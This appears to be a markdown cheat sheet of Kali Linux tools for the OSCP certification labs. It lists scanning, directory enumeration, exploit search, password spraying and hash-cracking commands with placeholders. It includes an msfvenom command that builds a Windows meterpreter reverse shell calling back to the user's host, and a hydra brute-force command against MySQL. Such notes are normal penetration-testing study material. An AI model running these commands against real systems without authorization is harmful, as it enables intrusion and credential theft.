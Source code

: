# Kali (Tools)

- [openvpn](#openvpn): OSCP Labs Environment VPN client
- [netdiscover](#netdiscover): Discover network members by listening for ARP
- [nmap](#nmap): Network / port scanner with ability to fingerprint services
- [gobuster](#gobuster): HTTP webserver directory enumeration
- [searchsploit](#searchsploit): Keyword search on vulnerability / exploit database
- [msfvenom](#msfvenom): Generate exploit payloads
- [hydra](#hydra): Brute force / password spraying tool
- [hashcat](#hashcat): Cracks hashes with dictionary attack
- [ssh2john](#ssh2john): Extract password-hash from password-protected RSA private keys
- [john (John the Ripper)](#john-john-the-ripper): Password "recovery" (cracking) tool with various input formats


## openvpn

During the lab they will give you the URL of an OpenVNC Access Server, where you will authenticate with your lab credentials and be able to download an OpenVPN profile (i.e. a `.ovpn` file).

You can then connect to the VPN with the profile with:

```
sudo openvpn *.ovpn
```

You should immediately have a private IP for the network you joined.

## netdiscover

Discover network members by listening for ARP with:

```
netdiscover -i ${INTERFACE}
```

- You can list interfaces in linux with `ifconfig`

## nmap

> Cheatsheet [here](./../../cheatsheets/kali/nmap.md)

Scan a target host for open ports:

```
nmap -Pn -T4 -v -p- ${TARGET} -oN ${OUTPUT_LOG_FILE}
```

## gobuster

Enumerate a webserver's directories with:

```
gobuster dir -u http://${TARGET} -w ${PATH_TO_WORDLIST}
```

- Wordlists in Kali are all under `/usr/share/wordlists`
- You may also specify file extensions to try with the `-x` flag e.g. `-x '.php,.html,.js'`
- You may also specify non-default exclusion status codes witht he `-b` flag e.g. `-b 404,302`


## searchsploit

Search for exploits with:

```
searchsploit ${KEYWORD}
```

## msfvenom

Generate exploit payloads, e.g. you may craft a reverse shell for windows with:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=${YOUR_HOST} LPORT=${YOUR_LISTENER_PORT} -f exe > ${OUTPUT_FILENAME}
```

## hydra

Brute force / spray passwords against well known services e.g. ftp, ssh, mysql...

You may target a mysql server with

```
hydra mysql://${TARGET_HOST} -l ${USERNAME} -P ${PASSWORD_WORDLIST}
```

- Wordlists in Kali are all under `/usr/share/wordlists`
- You may also use the `-L` option for username wordlist
- You may also use the `-p` option to try only one password
- You may also use the `-C` option to provide a file of colon separated username:password combinations

## hashcat

> Cheatsheet [here](./../../cheatsheets/kali/hashcat.md)

Crack password hashes for a variety of techniques. e.g. crack an md5 hash (e.g. `-m 0`):

```
hashcat -m ${MODE} -o ${OUTPUT_FILE_PATH} ${HASHES_FILE} ${WORDLIST}
```

## ssh2john

Extract password-hash from password-protected RSA private keys with:

```
ssh2john ${PATH_TO_INPUT_PASS_PROTECTED_KEY} > ${PATH_TO_OUTPUT_FILE}
```

## john (John the Ripper)

Password "recovery" (cracking) tool with various input formats

```
john ${PASSWORD_FILE} --wordlist=${WORDLIST}
```